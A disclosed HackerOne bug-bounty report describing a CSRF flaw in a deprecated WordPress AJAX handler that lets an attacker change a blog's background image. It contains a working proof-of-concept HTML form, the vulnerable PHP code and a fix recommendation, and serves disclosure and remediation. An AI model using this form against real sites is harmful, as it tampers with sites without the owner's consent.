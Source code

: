# Arbitrary change of blog's background image via CSRF

## Report Details
- **Report ID**: 881855
- **URL**: https://hackerone.com/reports/881855
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-05-24T17:13:23.625Z
- **Disclosed**: 2020-12-14T10:19:54.363Z

## Reporter
- **Username**: erwan_lr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
## Description:

Despite being deprecated since v3.5.0, the `wp_set_background_image` method (defined in wp-admin/includes/class-custom-background.php), registered as an authenticated AJAX call (`wp_ajax_set-background-image`), is still active.

Given that the method is lacking CSRF checks, an attacker could change the background image of the blog to an arbitrary one from the media library via a CSRF attack on a logged in user with the `edit_theme_options` capability (by default administrators).

## Steps To Reproduce:

Save the code below in an HTML file, replace the `[WP]` by the correct domain, and change the `attachement_id` to an existing attachment id. The `size` parameter can also be changed to `thumbnail`, `medium`, `large` or `full`.

```html
<html>
  <body>
    <form action="https://[WP]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="attachment_id" value="5" />
      <input type="hidden" name="action" value="set-background-image" />
      <input type="hidden" name="size" value="thumbnail" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Then log on to the blog as an administrator, open the file (with the same web browser used to login) and click the `Submit request` button. Then go the homepage of the blog and notice that the background image has been changed.

## Recommendations

Given that the method has been deprecated and replaced with the `ajax_background_add` one which has the correct checks (both CSRF and authorisation), it would be recommended to remove the `wp_set_background_image` function all together, or at least not register it in the `wp_ajax_` hook.

## Affected Code

In wp-admin/includes/class-custom-background.php

```php
// Unused since 3.5.0.
add_action( 'wp_ajax_set-background-image', array( $this, 'wp_set_background_image' ) );

/**
 * @since 3.4.0
 * @deprecated 3.5.0
 */
public function wp_set_background_image() {
	if ( ! current_user_can( 'edit_theme_options' ) || ! isset( $_POST['attachment_id'] ) ) {
		exit;
	}

	$attachment_id = absint( $_POST['attachment_id'] );

	$sizes = array_keys(
		/** This filter is documented in wp-admin/includes/media.php */
		apply_filters(
			'image_size_names_choose',
			array(
				'thumbnail' => __( 'Thumbnail' ),
				'medium'    => __( 'Medium' ),
				'large'     => __( 'Large' ),
				'full'      => __( 'Full Size' ),
			)
		)
	);

	$size = 'thumbnail';
	if ( in_array( $_POST['size'], $sizes ) ) {
		$size = esc_attr( $_POST['size'] );
	}

	update_post_meta( $attachment_id, '_wp_attachment_is_custom_background', get_option( 'stylesheet' ) );

	$url       = wp_get_attachment_image_src( $attachment_id, $size );
	$thumbnail = wp_get_attachment_image_src( $attachment_id, 'thumbnail' );
	set_theme_mod( 'background_image', esc_url_raw( $url[0] ) );
	set_theme_mod( 'background_image_thumb', esc_url_raw( $thumbnail[0] ) );
	exit;
}
```

## Impact

An attacker could make a logged in administrator change the background image of the blog to one of the image available in the media library.

Depending on the images available, the blog may become unreadable as the image repeats itself, potentially masking the text.

## Attachments
- Screenshot_2020-05-24_at_18.21.57.png
